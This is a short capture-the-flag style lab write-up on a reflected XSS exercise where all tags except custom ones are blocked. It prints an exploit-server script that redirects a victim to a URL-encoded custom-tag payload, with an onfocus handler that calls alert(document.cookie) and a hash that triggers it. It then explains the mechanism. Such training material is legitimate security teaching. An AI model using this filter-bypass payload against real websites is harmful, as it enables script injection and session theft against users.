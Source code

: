 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

Open the exploit server and save the following code as the exploit:
```
<script>
location = 'https://lab-subdomain.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

Deliver the link to the victim to solve the lab.

---

This creates a custom tag with the ID x, containing an onfocus event. The event is triggered by the hash at the end of the url, which focuses on the element when the page is loaded. This causes the alert function to be executed.